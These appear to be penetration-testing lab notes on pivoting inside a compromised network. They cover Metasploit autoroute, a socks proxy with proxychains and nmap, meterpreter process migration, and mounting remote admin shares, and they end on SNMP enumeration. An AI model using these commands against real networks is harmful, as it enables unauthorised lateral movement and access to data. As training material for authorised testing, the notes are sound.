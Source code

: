 

```cmd
run autoroute -s 10.0.22.69/20
```

> This command is related to managing and utilizing routes within a compromised network during a penetration test. By running `autoroute -s 10.0.22.69/20`, you are instructing Metasploit to add a route to the network `10.0.16.0/20` via the compromised machine.

```shell
cat /etc/proxychains4.conf
```

> Socks proxy configuration is in this file.

***result***
```shell
# defaults set to "tor"
socks4  127.0.0.1 9050
```

```msfconsole
use auxiliary/server/socks_proxy
show options
set SRVPORT 9050
set VERSION 4a 
exploit
jobs
```

> This module can be used to set up `socks4a` proxy chain.

```Shell
proxychains <command>
proxychains nmap demo1.ine.local -sT -Pn -sV -p 445
```

> This is how you can run commands to other machine using `proxychains` from `metasploit`.

```CMD
migrate -N explorer.exe (meterpreter)
shell
net view 10.0.22.69 
```

> This lists down all the shared resources (if any) between two machines on a network.

```cmd
net use D: \\10.0.22.69\Documents
net use K: \\10.0.22.69\K$
dir D:
dir K:
```

> Command to load and access the shared resources.


#### SNMP Enumeration:

```Shell
nmap -sU -p 161 <ip-address>
```
